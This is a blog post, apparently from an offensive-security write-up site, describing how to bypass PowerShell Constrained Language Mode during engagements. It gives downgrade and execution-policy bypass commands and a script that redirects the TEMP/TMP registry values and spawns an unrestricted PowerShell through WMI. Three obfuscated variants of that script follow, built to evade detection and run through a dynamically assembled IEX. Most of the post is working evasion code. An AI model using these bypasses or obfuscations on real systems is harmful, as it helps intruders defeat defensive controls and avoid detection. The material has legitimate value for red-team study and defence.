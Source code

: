 ```yaml
---
title:  "CLM Bypass"
date:   2021-10-17 19:12:00 +0000
categories: [techniques]
tags: [windows, powershell, bypass]
---
```


It is common during engagements to find that CLM (Constrained Language Mode) is configured on PowerShell as a SafeGuard or control against malicous activity.
This is a common misconception as there are many ways that CLM can be bypassed.
First check that CLM is in place by executing the following:

```
$ExecutionContext.SessionState.LanguageMode
```

If you want to set the Session to CLM from Full for testing then run the following however be aware that spawning a new session would spawn in full mode regardless if this is the default on your system.
I will leave it to the reader to do this.

```
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

Firstly, the most common way to bypass CLM is to simply downgrade to PowerShell version 2 if it is installed. You can do this by appending the '-version 2' argument.


```
powershell.exe -version 2
```

If you want to bypass the execution policy then append the following:

```
powershell.exe -version 2 -ExecutionPolicy bypass
```

Although this will likely work if PowerShell version 2 is installed alot of tools may not work to their full potential or simply not fit into your requirements using the legacy version.

There are tools out there to help ofcourse, these are usually execuable files which will touch disk and may not suit your needs.

The following method can be simply pasted into a PowerShell window and a new PowerShell session is spawned as either the current PowerShell Version, or if needed, you could change the version to any other (2,3,4,5,6,7)

CLM Bypass Default
------------------

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Or if you want to change the PowerShell version then simply add the arguments needed such the below:

PowerShell Specific Version
---------------------------

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe -Version 2 -ExecutionPolicy bypass"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Token Based Obfuscated
----------------------

```
${C`U`RrtEmP} = ${enV:T`e`Mp}
${CUrRT`MP} = ${ENv:`T`mp}
${temp`B`YpAs`SPaTH} = ((("{0}{5}{3}{4}{1}{2}" -f 'C','wsYyKte','mp','Kw','indo',':Yy')) -RePlACe  'YyK',[cHar]92)
${TmPb`ypa`Ssp`Ath} = ((("{0}{1}{2}{3}" -f 'C:{0','}windows{','0}te','mp')) -F [cHAr]92)

&("{2}{1}{3}{0}"-f 'y','emPr','Set-It','opert') -Path ((("{0}{1}{2}{4}{3}"-f 'hkcu:','{0','}','ment','Environ'))-f [char]92) -Name ("{0}{1}"-f'T','mp') -Value "$TEMPBypassPath"
.("{3}{2}{4}{1}{0}"-f 'roperty','P','-It','Set','em') -Path ((("{0}{5}{6}{1}{3}{2}{4}"-f 'hk','NAtE','viro','n','nment','cu',':')) -creplacE'NAt',[cHAR]92) -Name ("{0}{1}"-f 'T','emp') -Value "$TMPBypassPath"

&("{0}{2}{4}{1}{3}" -f'In','Me','voke-W','thod','mi') -Class ("{2}{0}{3}{4}{1}"-f'i','s','w','n32_proce','s') -Name ("{0}{1}"-f'crea','te') -ArgumentList ("{3}{4}{1}{2}{0}" -f'l.exe','e','l','Powe','rsh')
&("{1}{0}" -f'eep','sl') 5


.("{2}{1}{0}{4}{3}"-f 'emPro','et-It','S','ty','per') -Path ((("{1}{2}{3}{0}{5}{4}"-f 'v','hk','cu:A','YlEn','nt','ironme')) -repLaCE ([cHAr]65+[cHAr]89+[cHAr]108),[cHAr]92) -Name ("{0}{1}"-f'T','mp') -Value ${cuRr`TMP}
.("{1}{0}{2}{3}"-f 'emPr','Set-It','opert','y') -Path ((("{2}{4}{3}{0}{1}"-f 'vironm','ent','hk','n','cu:4XQE')) -CREPLacE '4XQ',[cHar]92) -Name ("{1}{0}" -f 'emp','T') -Value ${cURr`T`Emp}
```

Reverse String Obfuscated
-------------------------

```
$0wN5  =  ")'x'+]31[diLLEHs$+]1[dIlLehS$ (&|)43]RaHC[,63]RaHC[,93]RaHC[,29]RaHC[  f-)'pmeTrr'+'uC}2{ eulaV- '+'p'+'m'+'e'+'T e'+'m'+'aN- }1{tn'+'emn'+'orivnE}0{'+':'+'uc'+'k'+'h'+'}'+'1{ htaP'+'-'+' y'+'tre'+'porPm'+'et'+'I'+'-'+'teS

p'+'mTrr'+'uC}2{ eula'+'V'+'- '+'pmT '+'emaN- }1{tnem'+'norivnE}'+'0{:uck'+'h}1{ htaP'+'- '+'ytrep'+'orPm'+'etI-teS'+'

kc'+'a'+'b t'+'i te'+'S'+'#
'+'

5'+' pe'+'els

'+'}3{e'+'x'+'e.ll'+'e'+'h'+'srew'+'oP}3{ tsiLtne'+'m'+'ug'+'rA- e'+'taerc '+'emaN-'+' '+'ssec'+'orp_23'+'n'+'iw'+' ss'+'a'+'lC-'+' d'+'ohte'+'MimW-e'+'k'+'o'+'vnI
'+'

}'+'3{h'+'taPs'+'sapyBPMT}'+'2{}3{'+' eulaV- pm'+'e'+'T e'+'maN'+'- '+'}'+'1{t'+'nem'+'nori'+'vnE}0'+'{:uck'+'h}1'+'{ '+'hta'+'P- y'+'trep'+'orPm'+'e'+'t'+'I'+'-teS'+'

}'+'3'+'{hta'+'P'+'s'+'s'+'ap'+'yBPMET}2{}3{ e'+'ula'+'V-'+' pmT'+' e'+'maN-'+' '+'}1'+'{tne'+'mn'+'orivnE'+'}0{:uckh}1{ htaP- '+'y'+'t'+'r'+'e'+'po'+'r'+'Pmet'+'I-'+'t'+'eS'+'


}3{p'+'m'+'et'+'}'+'0'+'{swod'+'n'+'i'+'w}0'+'{:C}3{ ='+' h'+'ta'+'Pssap'+'y'+'BPMT}'+'2{'+'

'+'}'+'3'+'{'+'pmet}0{'+'swodniw}0'+'{:'+'C}3{ '+'= h'+'taPs'+'sa'+'pyBPM'+'ET'+'}2{'+'

'+'pm'+'t:vne'+'}2'+'{ '+'='+' pmT'+'rruC}'+'2'+'{

pme'+'t:vne}2{'+' ='+' p'+'me'+'Trr'+'uC'+'}2{'(( ";.( $Env:coMSPeC[4,24,25]-jOIn'') ( "$( sv 'OFS' '' ) " +[STrIng]( (  gEt-VaRiAbLe  ("0w"+"N5") ).vAlue[-1 ..-((  gEt-VaRiAbLe  ("0w"+"N5") ).vAlue.lENGth )]) +"$(set  'ofs'  ' ' ) ")
```

Obfuscated String Reorder
-------------------------

```
(("{80}{106}{34}{40}{49}{45}{120}{29}{125}{124}{65}{87}{90}{70}{110}{41}{71}{112}{118}{96}{69}{8}{82}{103}{122}{119}{21}{14}{117}{5}{51}{55}{24}{94}{95}{83}{98}{88}{84}{53}{105}{99}{6}{31}{73}{32}{33}{77}{78}{23}{50}{48}{17}{109}{25}{111}{9}{100}{115}{104}{97}{37}{62}{102}{63}{75}{1}{22}{93}{66}{27}{57}{7}{44}{4}{38}{56}{26}{60}{30}{101}{13}{18}{52}{10}{114}{68}{3}{43}{86}{19}{15}{92}{108}{89}{59}{12}{76}{20}{123}{81}{46}{0}{35}{107}{16}{58}{36}{116}{113}{47}{61}{74}{72}{85}{67}{121}{54}{42}{79}{64}{2}{39}{28}{11}{91}"-f'1 -Nam','l',' -Value ','

#S','lass w','hTMPB','v','nvoke-WmiMeth','C:A','Path','hell.exefkI','rr','kcu:AZM','I','kI
4','Property -','rrTm','assP','Pow','tem','viron','tempf','ue fkI45hTMPB',' fkI4','=','-ItemPr','ocess -N','I
','hCu','env:t','-Argume','ir','-N','a','em','e Tmp -V','Se','ntMW','in32','45','p','
45hT',' ','et it ba','od -C',' 45','W','rope','EMPByp',' =','5hT','ypassPa','ers','emProperty -Path ','tMW1','th ','_pr','

I','p
','MW1h','ame create ','r','1 -N','emp -','emp','rrTm','Pathfk','cu:',' 5','I',':tm','EMPBy','1h','onmentMW1 ','ty -Path MW','Va','En','me Tmp -','Value','-Name T','45','tM','Z','Mwi','
Set-It','k','ck
Set-I','p = 45he','

','h ','nv','Temp','P','ypass',' fkIC:A','Z','th = fk','ronme','ndowsAZMtempfkI
','1hkcu:AZMEn',' ','ntList fk','ame T','Mwi','vi','MW','hCurrT','alue 45hCu','at','athfkI
Set','p
','operty -','p','mP','
sleep','MW1hkcu:AZMEn','t-Ite','5','assPa','sAZM','h','AZMEnvironmen','ndow','men','hCu','emp
45')).ReplaCE('MW1',[STRiNg][CHAR]39).ReplaCE('fkI',[STRiNg][CHAR]34).ReplaCE('45h','$').ReplaCE(([CHAR]65+[CHAR]90+[CHAR]77),'\') |& ( $pshoMe[4]+$pSHOme[34]+'X')
```

